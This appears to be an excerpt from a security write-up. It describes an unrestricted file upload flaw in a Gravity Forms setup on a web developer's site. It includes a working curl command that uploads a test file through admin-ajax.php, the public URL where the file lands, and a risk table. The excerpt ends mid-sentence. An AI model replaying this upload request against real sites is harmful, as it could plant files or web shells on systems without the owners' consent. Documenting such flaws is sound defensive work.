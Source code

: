 A test file was created and successfully uploaded to verify the vulnerability:

```bash
echo "CANARY_1337" > test.txt

curl -F "gform_submit=45" \
     -F "input_45_34=test" \
     -F "input_45_16=you@you.com" \
     -F "input_45_4bee915=@test.txt" \
     https://[REDACTED-TECH].com/wp-admin/admin-ajax.php
```

### Verification

The file was successfully uploaded and is publicly accessible at:

```
https://[REDACTED-TECH].com/wp-content/uploads/gravity_forms/2025/03/test.txt
```

Contents of test.txt:

```
CaN yOu HeAr Me NoW :p
```

## Security Implications

### Current Findings

1. Unrestricted file upload to a web-accessible directory
2. Predictable file storage location (wp-content/uploads/gravity_forms/YYYY/MM/)
3. Publicly accessible uploaded files without authentication
4. Potential for more severe exploitation

### Risk Assessment

| Vulnerability Type    | Status                      |
| --------------------- | --------------------------- |
| Arbitrary File Upload | Confirmed                   |
| Read Access           | Confirmed                   |
| Write Access          | Confirmed                   |
| Authentication Bypass | Confirmed (via public form) |

This vulnerability has been classified as **Critical** due to the potential for unauthorized access to sensitive data and possible system compromise. Point proven?

### Plain English/TL;DR

Our test proved that the web developer's own site had the exact same security weakness as the restaurant site they built. This was especially ironic since they had dismissed our warnings about these issues. Using this vulnerability, attackers could easily:
